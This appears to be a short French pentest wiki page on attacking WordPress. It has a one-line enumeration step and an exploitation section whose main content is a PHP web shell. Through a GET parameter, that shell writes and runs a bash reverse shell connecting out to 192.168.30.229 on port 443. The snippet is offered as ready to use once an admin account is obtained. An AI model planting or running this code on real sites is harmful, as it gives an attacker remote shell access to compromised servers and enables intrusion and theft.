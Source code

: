 ```yaml
---
title: WordPress
permalink: /WordPress/
---
```


Enumeration
-----------

Lors de cette étape on va chercher à identifier les plugins vulnérables présents sur le wordpress ainsi que les utilisateurs présents.

Exploitation
------------

### Reverse Shell

Avec un compte admin il est possible d'obtenir un reverse shell:

``` php
<?php
if(isset($_GET["shell"]))
{
    system("echo 'bash -i >& /dev/tcp/192.168.30.229/443 0>&1' > /tmp/shell.sh");
    system("bash /tmp/shell.sh");
}
?>
```

[Category:Technologies](/Category:Technologies "wikilink")
